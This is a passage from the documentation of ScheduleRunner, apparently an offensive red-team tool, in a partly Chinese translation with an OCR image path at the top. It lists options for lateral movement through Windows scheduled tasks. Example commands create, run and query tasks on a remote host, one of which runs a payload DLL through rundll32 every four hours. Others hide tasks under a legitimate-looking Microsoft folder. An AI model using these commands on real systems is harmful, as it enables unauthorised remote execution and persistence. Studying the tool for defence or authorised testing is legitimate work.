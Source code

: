 [*]是必填字段。

## 计划任务横向移动选项(/method:move)

| 方法 | 功能 |
| --- | --- |
| [*] /taskname | 指定计划任务的名称 |
| [*]/程序 | 指定任务运行的程序 |
| [*] /remoteserver | 指定远程计算机的主机名或 IP 地址 |
| /触发器 | 指定计划类型。有效值包括:“分钟”、“每小时”、“每天”、“onstart”、“onlogon”、“onidle” |
| /修饰符 | 指定任务在其计划类型内运行的频率。仅适用于“分钟”(例如，1-1439 分钟)和“每小时”(例如，1-23 小时)等计划类型 |
| /starttime | 指定每日计划类型的开始时间(例如，23:30) |
| /参数 | 指定程序的命令行参数 |
| /文件夹 | 指定存储计划任务的文件夹(默认:\) |
| /作者 | 指定计划任务的作者 |
| /描述 | 指定计划任务的描述 |
| /用户 | 使用指定的用户帐户运行任务 |

[*]是必填字段。

## 举例

**创建一个名为“清理”的计划任务，该任务将在每天晚上 11:30 执行**

`**ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:daily /starttime:23:30 /program:calc.exe /description:"Some description" /author:netero1010**`

**创建一个名为“清理”的计划任务，该任务将在远程服务器上每 4 小时执行一次**

`**ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:hourly /modifier:4 /program:rundll32.exe /argument:c:\temp\payload.dll /remoteserver:TARGET-PC01**`

**删除名为“清理”的计划任务**

`**ScheduleRunner.exe /**method:delete /taskname:Cleanup`

**执行名为“清理”的计划任务**

`**ScheduleRunner.exe /method:run /taskname:Cleanup**`

**查询远程服务器上“\ Microsoft \ Windows \ CertificateServicesClient”文件夹下名为“清理”的计划任务的详细信息**

`**ScheduleRunner.exe /method:query /taskname:Cleanup /folder:\Microsoft\Windows\CertificateServicesClient /remoteserver:TARGET-PC01**`

**查询远程服务器上特定文件夹“\ Microsoft \ Windows \ CertificateServicesClient”下的所有调度任务**

`**ScheduleRunner.exe /method:query /folder:\Microsoft\Windows\CertificateServicesClient /remoteserver:TARGET-PC01**`
